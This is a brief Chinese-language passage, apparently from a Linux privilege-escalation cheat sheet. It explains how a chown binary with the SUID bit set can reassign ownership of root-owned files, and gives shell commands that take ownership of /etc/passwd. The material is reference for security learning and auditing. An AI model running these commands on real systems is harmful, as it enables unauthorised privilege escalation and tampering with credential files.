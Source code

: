 如果 chown 拥有 S 权限，我们可以使用它以 root 权限修改其他文件所属用户和组。
例如使用 chown 修改/etc/passwd 文件所属：
```
LFILE=/etc/passwd
./chown $(id -un):$(id -gn) $LFILE
```
然后就可以读取 passwd 文件。
